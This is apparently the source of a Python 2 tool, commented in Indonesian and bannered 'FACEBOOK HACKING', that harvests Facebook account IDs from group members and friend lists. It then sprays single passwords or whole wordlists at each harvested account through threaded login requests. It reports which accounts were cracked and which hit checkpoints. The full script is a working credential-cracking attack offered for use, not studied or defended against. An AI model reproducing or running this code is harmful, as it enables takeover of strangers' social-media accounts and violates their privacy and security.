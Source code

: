# HackFbSKANET
from __future__ import print_function
import platform,os
def tampil(x):
	w = {'m':31,'h':32,'k':33,'b':34,'p':35,'c':36}
	for i in w:
		x=x.replace('\r%s'%i,'\033[%s;1m'%w[i])
	x+='\033[0m'
	x=x.replace('\r0','\033[0m')
	print(x)
if platform.python_version().split('.')[0] != '2':
	tampil('\rm[!] Kamu Menggunakan Python Versi %s Silahkan Menggunakan Versi 2.x.x'%v().split(' ')[0])
	os.sys.exit()
import cookielib,re,urllib2,urllib,threading
try:
	import mechanize
except ImportError:
	tampil('\rm[!]SepertiNya Module \rbMechanize\rm Belum Di Install...')
	tampil('\rmpip2 install mechanize...')
	os.sys.exit()
def keluar():
	simpan()
	tampil('\rm[!]BY~~~HaxID')
	os.sys.exit()
log = 0
id_bteman = []
id_bgroup = []
fid_bteman = []
fid_bgroup = []
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_equiv(True)
br.set_handle_referer(True)
br.set_cookiejar(cookielib.LWPCookieJar())
br.set_handle_redirect(True)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(),max_time=1)
br.addheaders = [('User-Agent','Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')]
def bacaData():
	global fid_bgroup,fid_bteman
	try:
		fid_bgroup = open(os.sys.path[0]+'/FBHgroup.txt','r').readlines()
	except:pass
	try:
		fid_bteman = open(os.sys.path[0]+'/FBHteman.txt','r').readlines()
	except:pass
def inputD(x,v=0):
	while 1:
		try:
			a = raw_input('\x1b[32;1m%s\x1b[31;1m:\x1b[33;1m'%x)
		except:
			tampil('\n\rm[!]Batal')
			keluar()
		if v:
			if a.upper() in v:
				break
			else:
				tampil('\rm[!]Lol, Masukan Pilihannya Bro...')
				continue
		else:
			if len(a) == 0:
				tampil('\rm[!]Lol, Masukan dengan benar')
				continue
			else:
				break
	return a
def inputM(x,d):
	while 1:
		try:
			i = int(inputD(x))
		except:
			tampil('\rm[!]Pilihan Tidak Tersedia')
			continue
		if i in d:
			break
		else:
			tampil('\rm[!]Pilihan Tidak Tersedia')
	return i
def simpan():
	if len(id_bgroup) != 0:
		tampil('\rh[*]Menyimpan Hasil Dari group')
		try:
			open(os.sys.path[0]+'/FBHgroup.txt','w').write('\n'.join(id_bgroup))
			tampil('\rp[!]Berhasil meyimpan \rcFBHgroup.txt')
		except:
			tampil('\rm[!]Gagal meyimpan')
	if len(id_bteman) != 0:
		tampil('\rp[*]Menyimpan Daftar Teman...')
		try:
			open(os.sys.path[0]+'/FBHteman.txt','w').write('\n'.join(id_bteman))
			tampil('\rp[!]Berhasil meyimpan \rcFBHteman.txt')
		except:
			tampil('\rm[!]Gagal Meyimpan')
def buka(d):
	tampil('\rb[*]Membuka \rp'+d)
	try:
		x = br.open(d)
		br._factory.is_html = True
		x = x.read()
	except:
		tampil('\rm[!]Gagal membuka \rp'+d)
		keluar()
	if '<link rel="redirect" href="' in x:
		return buka(br.find_link().url)
	else:
		return x
def login():
	global log
	us = inputD('[?]Email/HP')
	pa = inputD('[?]Password')
	tampil('\rp[*]Loading....')
	buka('https://m.facebook.com')
	br.select_form(nr=0)
	br.form['email']=us
	br.form['pass']=pa
	br.submit()
	url = br.geturl()
	if 'save-device' in url or 'm_sess' in url:
		tampil('\rp[*]Login Berhasil')
		buka('https://mobile.facebook.com/home.php')
		nama = br.find_link(url_regex='logout.php').text
		nama = re.findall(r'\((.*a?)\)',nama)[0]
		tampil('\rb[*]Selamat datang \rk%s\n\rp[*]Semoga Berhasil....'%nama)
		log = 1
	elif 'checkpoint' in url:
		tampil('\rm[!]Akun Kena Checkpoint\n\rp[!]Coba Login dengan Browser')
		keluar()
	else:
		tampil('\rm[!]Login Gagal')
def saring_id_teman(r):
	for i in re.findall(r'/friends/hovercard/mbasic/\?uid=(.*?)&',r):
		id_bteman.append(i)
		tampil('\rc==>\rb%s\rm'%i)
def saring_id_group1(d):
	for i in re.findall(r'<h3><a href="/(.*?)fref=pb',d):
		if i.find('profile.php') == -1:
			a = i.replace('?','')
		else:
			a = i.replace('profile.php?id=','').replace('&amp;','')
		if a not in id_bgroup:
			tampil('\rk==>\rc%s'%a)
			id_bgroup.append(a)
def saring_id_group0():
	global id_group
	while 1:
		id_group = inputD('[?]Id Group')
		tampil('\rh[*]Mengecek Group....')
		a = buka('https://m.facebook.com/browse/group/members/?id='+id_group+'&amp;start=0&amp;listType=list_nonfriend&amp;refid=18&amp;_rdc=1&amp;_rdr')
		nama = ' '.join(re.findall(r'<title>(.*?)</title>',a)[0].split()[1:])
		try:
			next = br.find_link(url_regex= '/browse/group/members/').url
			break
		except:
			tampil('\rm[!]Id Yang Anda Masukan Salah')
			continue
	tampil('\rp[*]Mengambil Id Dari Group \rc%s'%nama)
	saring_id_group1(a)
	return next
def idgroup():
	if log != 1:
		tampil('\rp[*]Login dulu bos...')
		login()
		if log == 0:
			keluar()
	next = saring_id_group0()
	while 1:
		saring_id_group1(buka(next))
		try:
			next = br.find_link(url_regex= '/browse/group/members/').url
		except:
			tampil('\rm[!]Hanya Bisa Mengambil \rp %d id'%len(id_bgroup))
			break
	simpan()
	i = inputD('[?]Langsung Crack (y/t)',['Y','T'])
	if i.upper() == 'Y':
		return crack(id_bgroup)
	else:
		return menu()
def idteman():
	if log != 1:
		tampil('\rp[*]Login dulu bos...')
		login()
		if log == 0:
			keluar()
	saring_id_teman(buka('https://m.facebook.com/friends/center/friends/?fb_ref=fbm&ref_component=mbasic_bookmark&ref_page=XMenuController'))
	try:
		next = br.find_link(url_regex= 'friends_center_main').url
	except:
		if len(id_teman) != 0:
			tampil('\rm[!]Hanya Dapat Mengambil \rp%d id'%len(id_bteman))
		else:
			tampil('\rm[!]Batal')
			keluar()
	while 1:
		saring_id_teman(buka(next))
		try:
			next = br.find_link(url_regex= 'friends_center_main').url
		except:
			tampil('\rm[!]Hanya Dapat Mengambil \rp%d id'%len(id_bteman))
			break
	simpan()
	i = inputD('[?]Langsung Crack (y/t)',['Y','T'])
	if i.upper() == 'Y':
		return crack(id_bteman)
	else:
		return menu()
class mt(threading.Thread):
    def __init__(self,i,p):
        threading.Thread.__init__(self)
        self.id = i
        self.a = 3
        self.p = p
    def update(self):
        return self.a,self.id
    def run(self):
        try:
             data = urllib2.urlopen(urllib2.Request(url='https://m.facebook.com/login.php',data=urllib.urlencode({'email':self.id,'pass':self.p}),headers={'User-Agent':'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16'}))
        except KeyboardInterrupt:
            os.sys.exit()
        except:
            self.a = 8
            os.sys.exit()
        if 'm_sess' in data.url or 'save-device' in data.url:
            self.a = 1
        elif 'checkpoint' in data.url:
            self.a = 2
        else:
            self.a = 0
def crack(d):
	i = inputD('[?]Pake Password list/Manual (p/m)',['P','M'])
	if i.upper() == 'P':
		while 1:
			dir = inputD('[?]Masukan Alamat Wordlist')
			try:
				D = open(dir,'r').readlines()
			except:
				tampil('\rm[!]Gagal membuka \rk%s'%dir)
				continue
			break
		tampil('\rp[*]Memulai Crack Dengan \rm%d Password'%len(D))
		for i in D:
			i = i.replace('\n','')
			if len(i) != 0:
				crack0(d,i,0)
		i = inputD('[?]Mau coba lagi (y/t)',['Y','T'])
		if i.upper() == 'Y':
			return crack(d)
		else:
			return menu()
	else:
		return crack0(d,inputD('[?]Password'),1)
def crack0(data,sandi,p):
	tampil('\rp[*]MengCrack \rk%d Akun \rmDengan Password \rm[\rk%s\rm]'%(len(data),sandi))
	print('\033[32;1m[*]Cracking \033[31;1m[\033[36;1m0%\033[31;1m]\033[0m',end='')
	os.sys.stdout.flush()
	akun_jml = []
	akun_sukses = []
	akun_cekpoint = []
	akun_error = []
	akun_gagal = []
	jml0,jml1 = 0,0
	th = []
	for i in data:
		i = i.replace(' ','')
		if len(i) != 0:th.append(mt(i,sandi))
	for i in th:
		jml1 += 1
		i.daemon = True
		try:i.start()
		except KeyboardInterrupt:exit()
	while 1:
		try:
			for i in th:
				a = i.update()
				if a[0] != 3 and a[1] not in akun_jml:
					jml0 += 1
					if a[0] == 2:
						akun_cekpoint.append(a[1])
					elif a[0] == 1:
						akun_sukses.append(a[1])
					elif a[0] == 0:
						akun_gagal.append(a[1])
					elif a[0] == 8:
						akun_error.append(a[1])
					print('\r\033[32;1m[*]Cracking \033[31;1m[\033[36;1m%0.2f%s\033[31;1m]\033[0m'%(float((float(jml0)/float(jml1))*100),'%'),end='')
					os.sys.stdout.flush()
					akun_jml.append(a[1])
		except KeyboardInterrupt:
			os.sys.exit()
		try:
			if threading.activeCount() == 1:break
		except KeyboardInterrupt:
			keluar()
	print('\r\033[32;1m[*]Cracking \033[31;1m[\033[36;1m100%\033[31;1m]\033[0m     ')
	if len(akun_sukses) != 0:
		tampil('\rp[*]Daftar Akun Sukses')
		for i in akun_sukses:
			tampil('\rh==>\rk%s \rm[\rp%s\rm]'%(i,sandi))
	tampil('\rp[*]Akun Berhasil\rp      %d'%len(akun_sukses))
	tampil('\rm[*]Akun Gagal\rp         %d'%len(akun_gagal))
	tampil('\rk[*]Akun Cekpoint\rp      %d'%len(akun_cekpoint))
	tampil('\rc[*]Akun Error\rp         %d'%len(akun_error))
	if p:
		i = inputD('[?]Mau coba lagi (y/t)',['Y','T'])
		if i.upper() == 'Y':
			return crack(data)
		else:
			return menu()
	else:
		return 0
def lanjutT():
	global fid_bteman
	if len(fid_bteman) != 0:
		i = inputD('[?]Riset Hasil Id Teman/lanjutkan (r/l)',['R','L'])
		if i.upper() == 'L':
			return crack(fid_bteman)
		else:
			os.remove(os.sys.path[0]+'/FBHbteman.txt')
			fid_bteman = []
	return 0
def lanjutG():
	global fid_bgroup
	if len(fid_bgroup) != 0:
		i = inputD('[?]Riset Hasil Id Group/lanjutkan (r/l)',['R','L'])
		if i.upper() == 'L':
			return crack(fid_bgroup)
		else:
			os.remove(os.sys.path[0]+'/FBHbgroup.txt')
			fid_bgroup = []
	return 0


def menu():
	tampil('''\rh
          ___   ___   _  _   
         | __| | _ ) | || |  \rk*\rcRafly|~|Pake i
         | _|  | _ \ | __ |  
        _|_|_  |___/ |_||_|  
 \rp |"""""|| """ |\rmSKANETLUWUK\rp|"""""||"""""| 
      "`-0-0-'"`-0-0-'"`-0-0-'   
      
\rmKita semua bangkit dan berdiri untuk suatu perubahan
\rk####################################################
             \rk*\rpFACEBOOK HACKING\rk*
             	\rp*\rkRombongan\rp*
             
 \rhAuthor :\rp Rafly\pakei
 \rhMod    :\rp rafly\rm|~|\rkLakaja
 \rhyoutube   :\rp Rafly\rkPakei 
 \rhContact:\rp akunpertama\rk18032002@gmail.com
 
\rk####################################################
\rmNOTE:Sekali anda memahami, seribu kali anda mengerti''')

	tampil('''''')
	tampil('''\rb%s\n\rc1 \rcAmbil id dari group\n\rc2 \rcAmbil id dari daftar teman\n\rb%s'''%('+'*25,'+'*25))
	tampil('''\rk%s\n\rc3 \rmKeluar\n\rk%s'''%('+'*25,'+'*25))
	tampil('''''')
	i = inputM('FBH ==>',[1,2,3])
	if i == 1:
		lanjutG()
		idgroup()
	elif i == 2:
		lanjutT()
		idteman()
	elif i == 3:
		keluar()
bacaData()
menu()
